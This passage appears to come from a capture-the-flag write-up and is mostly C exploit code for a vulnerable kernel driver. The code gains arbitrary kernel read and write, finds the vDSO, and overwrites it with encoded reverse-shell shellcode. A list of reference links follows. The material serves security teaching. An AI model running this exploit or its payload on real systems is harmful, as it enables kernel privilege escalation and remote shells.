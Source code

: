 ```C
	char shellcode[] = "\x90\x53\x48\x31\xC0\xB0\x66\x0F\x05\x48\x31\xDB\x48\x39\xC3\x75\x0F\x48\x31\xC0\xB0\x39\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x09\x5B\x48\x31\xC0\xB0\x60\x0F\x05\xC3\x48\x31\xD2\x6A\x01\x5E\x6A\x02\x5F\x6A\x29\x58\x0F\x05\x48\x97\x50\x48\xB9\xFD\xFF\xF2\xFA\x80\xFF\xFF\xFE\x48\xF7\xD1\x51\x48\x89\xE6\x6A\x10\x5A\x6A\x2A\x58\x0F\x05\x48\x31\xDB\x48\x39\xD8\x74\x07\x48\x31\xC0\xB0\xE7\x0F\x05\x90\x6A\x03\x5E\x6A\x21\x58\x48\xFF\xCE\x0F\x05\x75\xF6\x48\x31\xC0\x50\x48\xBB\xD0\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xD3\x53\x48\x89\xE7\x50\x57\x48\x89\xE6\x48\x31\xD2\xB0\x3B\x0F\x05\x48\x31\xC0\xB0\xE7\x0F\x05";

	char *buf = malloc(0x1000);
	
	fd = open("/dev/csaw",O_RDWR);
	if(fd < 0){
		puts("[-] open error");
		exit(-1);
	}

	alloc_args.buf_size = 0x100;
	alloc_args.id = -1;
	ioctl(fd,CSAW_ALLOC_CHANNEL,&alloc_args);
	if (alloc_args.id == -1){
		puts("[-] alloc_channel error");
		exit(-1);
	}
	printf("[+] now we get a channel %d\n",alloc_args.id);
	shrink_args.id = alloc_args.id;
	shrink_args.size = 0x100+1;
	ioctl(fd,CSAW_SHRINK_CHANNEL,&shrink_args);
	puts("[+] we can read and write any momery");

	for(addr=0xffffffff80000000;addr<0xffffffffffffefff;addr+=0x1000){
		seek_args.id =  alloc_args.id;
		seek_args.index = addr-0x10 ;
		seek_args.whence= SEEK_SET;
		ioctl(fd,CSAW_SEEK_CHANNEL,&seek_args);

		read_args.id = alloc_args.id;
		read_args.buf = buf;
		read_args.count = 0x1000;
		ioctl(fd,CSAW_READ_CHANNEL,&read_args);
		if(((*(unsigned long *)(buf) == 0x00010102464c457f)) ){ //elf head
			result = addr;
			printf("[+] found vdso: 0x%lx\n",result);
			break;
		}
	}
	if(result == 0){
		puts("not found , try again ");
		exit(-1);
	}
	ioctl(fd,CSAW_CLOSE_CHANNEL,&close_args);

	seek_args.id =  alloc_args.id;
	seek_args.index = result-0x10+0xc80 ;
	seek_args.whence= SEEK_SET;
	ioctl(fd,CSAW_SEEK_CHANNEL,&seek_args);

	write_args.id = alloc_args.id;
	write_args.buf = shellcode;
	write_args.count = strlen(shellcode);
	ioctl(fd,CSAW_WRITE_CHANNEL,&write_args);

	if(check_vsdo_shellcode(shellcode)){
		puts("[+] shellcode is written into vdso, waiting for a reverse shell :");
```

  [1]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=018ef8dcf3de5f62e2cc1a9273cc27e1c6ba8de5
  [2]: http://static.zybuluo.com/leafish/7kllxk3wq7npozo6ay31u34v/image_1e7t7btk61ih1ejb14smvk6ahe9.png
  [3]: http://static.zybuluo.com/leafish/ic34zdg3ad9pzjmdlexkscfr/image_1e7ng9lll1b8o3c618pi5d21h419.png
  [4]: http://static.zybuluo.com/leafish/kday5phaa948j024wr5zp6vu/image_1e7nsim15g5s1asa10oq1pmb1kaa9.png
  [5]: http://static.zybuluo.com/leafish/tyqt2hszfcv4dryegu5wcmdn/image_1e7nssvpm1nfrnononklo11gt6m.png
  [6]: http://static.zybuluo.com/leafish/y85k77eqmfr00x5v9fiqixcd/image_1e7ruv5ad1oq018ja10h14ft1qej13.png
  [7]: http://static.zybuluo.com/leafish/u3wt7758a10e22r0n4d06hpp/image_1e7rup6i21t73195b3a7iugto79.png
  [8]: http://static.zybuluo.com/leafish/2hwyuqcz7k70pihgu2zn4pqj/image_1e7rv1ckk76o11i81cadog7ee91g.png
  [9]: http://static.zybuluo.com/leafish/fvprvqa9klbq96h1opkzyalf/image_1e7rurbdg1jf01ie310mqkss1e88m.png
  [10]: http://static.zybuluo.com/leafish/bzbhhjvgu1j3qsodbcz3vngn/image_1e7t6hsg68ojri3mu3dq1gll1t.png